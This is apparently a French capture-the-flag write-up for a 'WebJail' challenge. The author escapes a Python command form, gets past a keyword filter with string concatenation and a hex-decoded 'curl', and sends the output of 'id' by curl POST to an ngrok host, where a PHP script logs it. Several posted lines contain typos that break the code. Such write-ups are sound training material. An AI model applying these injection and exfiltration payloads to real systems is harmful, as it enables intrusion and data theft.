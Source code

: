 # WebJail

**Introduction**

- Le challenge nous fournit une page qui nous offre la possibilité d'exécuter des commandes via un formulaire.
- Note, les données de formulaire sont représentées de la manière suivante: ``command=rand&execute=Execute``
<br/>

![image](https://user-images.githubusercontent.com/74382279/157317880-896d7863-c7bd-4384-8bc6-b6ae7b3081a3.png)

J'essaye d'envoyer une commande Python: ``print(1)``, mais aucun résultat. Je suppose donc qu'on doit jouer avec la requête pour trouver le bon point d'entrée.<br/>
Pour ce faire je teste plusieurs techniques d'escape, quand finalement j'obtiens un résultat différent. La commande suivante: ``);print(1)#``

![image](https://user-images.githubusercontent.com/74382279/157317785-2baf2def-ea0a-48e6-9e94-1079e55cc2a7.png)

L'idée est d'importer une lib (os) pour exécuter des commandes Bash. Donc je tente d'importer la lib ``os`` pour exécuter ``id``: ``);import os;os.popen('id').read()#``.
Malheur, j'obtiens la réponse ``Blocked``. Je pars du principe que le chall contient un filtre qui match plusieurs fonctions Python.
<br/>

![image](https://user-images.githubusercontent.com/74382279/157318532-29ad4480-d328-4db3-afcd-5042f5be7e0e.png)

Je vais devoir builtin des fontions à partir de la lib ``__builtins__``.
La méthode ``getattr()`` renvoie la valeur de l'attribut nommé d'un objet. S'il n'est pas trouvé, il renvoie la valeur par défaut fournie à la fonction.
``);geattr(__builtins__,'__imp''ort__')('o''s').popen('id')#``, par défaut j'utilise une méthode de concaténation pour éviter de faire trigger la commande par le filtre.
N'oublions pas que la méthode ``read()`` n'est pas acceptée. Dans ce contexte on est supposé d'envoyer la requête en stdout vers un serveur web qu'on hébergera localement pour récupérer les données ``POST``. Tout ça ``OOB`` (Out of band). Les données ``OOB`` sont transférées via un flux indépendant du flux de données principal dans la bande.
J'utilise Wampserv comme hébergeur local. First of all je script la fonction suivante en ``PHP``:

```php
<?php

if(isset($_POST["data"]) && !empty($_POST["data"])) {
  $handle = fopen("data.txt", "a+");
  fwrite($handel, $_POST["data"] . "\n");
  fclose($handle);
}

echo file_get_contents("data.txt");

?>
```

J'héberge le fichier ``PHP`` dans le dossier ``tmp``. Comme tunnel j'utilise ``ngrok``: ``ngrok http 80``.
J'ai maintenant mon lien, que je peux exploiter pour recept les données.
Je reviens à la base, mais cette fois-ci en utilisant ``curl`` pour renvoyer une requête POST: ``);geattr(__builtins__,'__imp''ort__')('o''s').popen('curl\x20-X\x20POST\x20-d\x20\x22data=$(id)\x22\x20https://rand.ngrok.io/tmp')#``.
J'obtiens ``Blocked``, le filtre a donc trigger une partie de la commande. Ayant la flemme de chercher une alternative (``wget triggered``). Je teste plusieurs techniques de bypass: ``'CURL'.lower()`` => ``Blocked``. Je tente une méthode de chiffrement pour déchiffrer dynamiquement et exécuter ``curl``.
```py
>>> ''.join([str(hex(ord(s)))[2:4] for s in 'curl'])
'6375726c'
>> ''.join([chr(int(''.join(c),16)) for s in zip('6375726c'[0::2],'6375726c'[1::2])])
'curl'
```
Vous avez dû remarquer, j'ai réécrit la fonction ``hex()`` pour éviter une autre fois le filtre. Comme requête finale j'obtiens:
``);geattr(__builtins__,'__imp''ort__')('o''s').popen(''.join([chr(int(''.join(c),16)) for s in zip('6375726c'[0::2],'6375726c'[1::2])])+'\x20-X\x20POST\x20-d\x20\x22data=$(id)\x22\x20https://rand.ngrok.io/tmp')#``.
Le serveur me renvoit bien la réponse:
<br/>

![image](https://user-images.githubusercontent.com/74382279/157323813-016de65c-4062-467f-a1a1-b2747ddee541.png)


